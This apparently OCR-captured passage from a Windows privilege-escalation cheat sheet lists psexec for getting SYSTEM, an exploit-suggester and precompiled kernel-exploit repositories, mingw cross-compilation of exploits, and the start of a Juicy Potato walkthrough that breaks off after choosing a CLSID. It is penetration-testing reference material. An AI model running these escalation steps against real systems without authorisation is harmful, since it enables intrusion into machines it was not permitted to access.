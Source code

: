 
### Escalate to SYSTEM from Administrator

```powershell
psexec -i -s cmd.exe /accepteula
```

---

### Kernel exploit

- python windows exploit suggester using systeminfo output

```bash
python windows-exploit-suggester.py --upadte
python windows-exploit-suggester.py --systeminfo <filename>
```

- Already compiled exploit

```powershell
https://github.com/SecWiki/windows-kernel-exploits
https://github.com/abatchy17/WindowsExploits
```

Compiling exploits for windows on Linux can be a bit of a hassle.

```bash
i686-w64-mingw32-gcc exploit.c -o exploit
```

For 32bit

```bash
i686-w64-mingw32-gcc 40564.c -o 40564 -lws2_32
```

---

### Juicy Potato (Abusing the golden privileges)

> If the machine is **>= Windows 10 1809 & Windows Server 2019** - Try **Rogue Potato**  
> If the machine is **< Windows 10 1809 < Windows Server 2019** - Try **Juicy Potato**

- Binary available at : https://github.com/ohpe/juicy-potato/releases

1. Check the privileges of the service account, you should look for **SeImpersonate** and/or **SeAssignPrimaryToken** (Impersonate a client after authentication)

   ```powershell
   whoami /priv
   ```

2. Select a CLSID based on your Windows version, a CLSID is a globally unique identifier that identifies a COM class object

   - [Windows 7 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise)
   - [Windows 8.1 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_8.1_Enterprise)
   - [Windows 10 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise)
   - [Windows 10 Professional](https://ohpe.it/juicy-potato/CLSID/Windows_10_Pro)
   - [Windows Server 2008 R2 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise)
   - [Windows Server 2012 Datacenter](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter)
   - [Windows Server 2016 Standard](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard)
